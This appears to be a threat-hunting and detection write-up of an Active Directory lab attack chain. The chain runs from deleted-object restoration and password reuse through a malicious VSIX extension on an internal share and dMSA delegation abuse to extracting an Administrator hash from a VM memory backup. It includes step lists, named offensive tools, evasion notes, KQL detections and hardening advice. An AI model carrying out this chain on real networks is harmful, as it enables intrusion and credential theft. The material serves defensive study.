  The attack functions like a compromised enterprise software pipeline. A seemingly harmless internal developer repository (DevDrop) acts as a trusted distribution channel. By inserting malicious code into this pipeline, the attacker gains execution in a higher-trust user context. Once inside privileged identity boundaries (dMSA + service accounts), backup systems—normally isolated—become the final breach vector, exposing raw memory and cryptographic secrets.


### Attack Vector

| Attribute                    | Technical Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| :--------------------------- | :--------------------------------------------------------------------------------------- |
| **Primary Identifiers**      | `GenericWrite (AD Objects)`<br>`Deleted Objects Container (tombstone abuse)`<br>`DevDrop SMB Share (WRITE access)`<br>`VS Code VSIX execution pipeline`<br>`msDS-AllowedToActOnBehalfOfOtherIdentity (dMSA)`<br>`VMEM memory snapshot artifacts`                                                                                                                                                                                                                                                    |
| **Critical Vulnerabilities** | - Over-permissive ACLs on deleted AD objects<br>- Password reuse across restored accounts<br>- Unrestricted write access to trusted software repository<br>- Lack of integrity validation for VSIX packages<br>- Misconfigured OU permissions enabling dMSA abuse<br>- Exposure of raw VM memory backups                                                                                                                                                                                            |
| **Offensive Actions**        | 1. Restore deleted AD object via GenericWrite abuse.<br>2. Pivot using reused credentials into `mark.davies`.<br>3. Write malicious `.vsix` to DevDrop share.<br>4. Trigger execution as `ryan.brooks` via extension workflow.<br>5. Abuse OU permissions to create/modify dMSA objects.<br>6. Extract Kerberos-related credential material for `svc_deploy`.<br>7. Access VMBackups share and retrieve `.vmem` snapshot.<br>8. Perform offline memory analysis to extract Administrator NTLM hash. |


### Prerequisites

* **Access Level:**

  * Initial domain user (`alex.turner`)
  * SMB read/write access to internal shares (DevDrop, later VMBackups)
  * Ability to interact with LDAP/AD objects

* **Connectivity:**

  * SMB (445)
  * LDAP/LDAPS (389/636)
  * Kerberos (88)
  * WinRM (5985)
  * Access to internal file distribution system

* **Target State:**

  * Deleted Objects container retains writable tombstones
  * Password reuse across user lifecycle
  * Trusted internal software distribution pipeline (VSIX)
  * OU-level delegation for dMSA container (`DMSAHolder`)
  * Backup infrastructure accessible by service accounts


### Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:**
  Attackers will exploit identity lifecycle weaknesses (deleted object restoration + password reuse) combined with trusted software distribution channels and service account delegation chains to escalate privileges across AD tiers.

* **Behavioral Outliers:**

  * Restoration of `CN=Mark Davies` from **Deleted Objects** by a non-privileged user.
  * Unusual **write activity on DevDrop SMB share** followed by extension ingestion.
  * Execution of VS Code extension payload under `ryan.brooks`.
  * Creation/modification of **dMSA-related objects in OU=DMSAHolder**.
  * Kerberos ticket anomalies involving delegated authentication material extraction.
  * Unexpected access to **VM backup storage by service accounts**.

* **Toxic Combinations:**

  * GenericWrite on Deleted Objects + Password reuse patterns
  * SMB WRITE access + trusted internal deployment pipeline
  * OU delegation + dMSA support in Windows Server 2025
  * Service account access + backup infrastructure exposure
  * Execution context change via non-standard software (VSIX)


### Detection Engineering

[Loot_20260618_0442.zip](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Checkpoint/Loot_20260618_0442.zip "Results")

* **Telemetry Gap Analysis:**
  Effective detection requires correlation across:

- AD object lifecycle events (restore/delete)
- SMB file modifications in trusted shares
- LDAP attribute modifications (GenericWrite abuse)
- Kerberos authentication anomalies (delegation abuse)
- File execution telemetry (VS Code extension runtime behavior)
- File access to VM snapshot artifacts

Critical Event IDs:

* **5136** → Directory object modification
* **5145** → SMB file share access
* **4662** → Object access (AD permission abuse)
* **4624** → Logon tracking
* **4742 / 4743** → Computer account changes


#### Detection-as-Code (KQL)

```kql
// Detect abnormal modifications to AD objects + potential GenericWrite abuse
SecurityEvent
| where EventID == 5136
| where ObjectName has "CN=Deleted Objects" or ObjectName has "OU="
| extend ModifiedAttribute = tostring(EventData)
| where ModifiedAttribute has_any ("distinguishedName", "member", "servicePrincipalName")
| summarize count() by SubjectAccount, ObjectName, bin(TimeGenerated, 10m)
| where count_ > 1
```

```kql
// Detect unusual SMB write activity to software distribution shares (DevDrop)
SecurityEvent
| where EventID == 5145
| where ShareName contains "DevDrop"
| where AccessMask has "WriteData"
| summarize count() by SubjectUserName, FileName, bin(TimeGenerated, 5m)
```


### Resilience Test

Attackers may bypass detection by:

* Using **legitimate restore workflows** for AD objects
* Embedding payloads inside **signed or trusted VSIX packages**
* Abusing **service account delegation instead of direct credential theft**
* Extracting credentials offline from **VM memory snapshots (out-of-band attack)**

**Countermeasures:**

* Monitor AD tombstone restoration events
* Enforce code signing for internal extension distribution
* Restrict write access to software deployment shares
* Encrypt and isolate backup memory artifacts
* Enable AD object auditing (4662 + 5136 correlation)


### Toolkit & Implementation

* **Automation:**

  * `bloodyAD` (ACL abuse, dMSA interaction)
  * `NetExec` (LDAP/SMB enumeration)
  * `smbclient` (share exploitation)
  * `VSIX packaging tools (supply-chain payload creation)`
  * `Impacket` (Kerberos + credential handling)
  * `Volatility3` (memory forensics)

* **OPSEC Analysis:**

  * Kerberos ticket reuse across chained accounts masks lateral movement
  * Abuse of internal software distribution mimics legitimate DevOps activity
  * Memory acquisition via VM backups bypasses endpoint detection entirely
  * Delegated service account abuse blends into normal identity workflows


### Defensive Mechanism

#### Technical Hardening

1. **Audit Deleted Objects ACLs**

   * Remove GenericWrite/Write permissions on tombstone objects.

2. **Secure Internal Software Repositories**

   * Enforce code signing for `.vsix` packages.
   * Restrict write access to DevDrop-like shares.

3. **Harden OU Permissions**

   * Strictly control `OU=DMSAHolder` write access.
   * Monitor creation of dMSA objects.

4. **Protect Backup Infrastructure**

   * Encrypt VM snapshots.
   * Isolate backup shares from service accounts.
   * Monitor access to `.vmem` files.

5. **Disable Password Reuse**

   * Enforce unique credential lifecycle policies.
   * Apply tiered identity separation.


### QUICK-ACTION PLAYBOOK

| Step | Objective                        | Command / Logic                                                |
| :--: | :------------------------------- | :------------------------------------------------------------- |
|  01  | Audit Deleted Object Permissions | `Get-ADObject -IncludeDeletedObjects -Filter *`                |
|  02  | Detect DevDrop Abuse             | Monitor SMB writes to internal extension repos                 |
|  03  | Hunt dMSA Abuse                  | Query OU-level write permissions on service account containers |
|  04  | Memory Exposure Check            | Audit access to `.vmem` / `.vmdk` files                        |
|  05  | Identify SPN / AD anomalies      | Track `servicePrincipalName` changes via Event ID 5136         |


